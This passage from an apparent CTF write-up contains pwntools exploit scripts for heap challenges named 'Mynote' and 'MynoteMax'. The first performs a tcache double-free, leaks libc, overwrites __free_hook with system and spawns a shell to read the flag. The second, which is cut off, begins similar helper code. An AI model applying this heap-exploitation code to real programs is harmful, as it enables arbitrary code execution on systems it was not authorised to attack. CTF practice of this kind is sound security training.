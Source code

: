```
    print libc.path
    context.log_level = "debug"
    add(0x100)
    add(0x100) #1
    add(0x100) #2
    delete(0)
    delete(0)
    add(0x100, '\x60')
    add(0x100, '\x60')
    add(0x100, '\x60')
    delete(1)
    show(1)
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-0x3ebca0)
    libc.address = libc_base
    add(0x100, p64(libc.sym['__free_hook']))
    add(0x100, p64(libc.sym['system']))
    add(0x100, p64(libc.sym['system']))
    delete(2)
    sh.interactive()


if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`', flag).group())
```

### <a class="reference-link" name="MynoteMax"></a>MynoteMax

```
from pwn import *

elf = None
libc = None
file_name = "./Mynote_Max"


# context.timeout = 1


def get_file(dic=""):
    context.binary = dic + file_name
    return context.binary


def get_libc(dic=""):
    libc = None
    try:
        data = os.popen("ldd `{``}`".format(dic + file_name)).read()
        for i in data.split('\n'):
            libc_info = i.split("=&gt;")
            if len(libc_info) == 2:
                if "libc" in libc_info[0]:
                    libc_path = libc_info[1].split(' (')
                    if len(libc_path) == 2:
                        libc = ELF(libc_path[0].replace(' ', ''), checksec=False)
                        return libc
    except:
        pass
    if context.arch == 'amd64':
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
```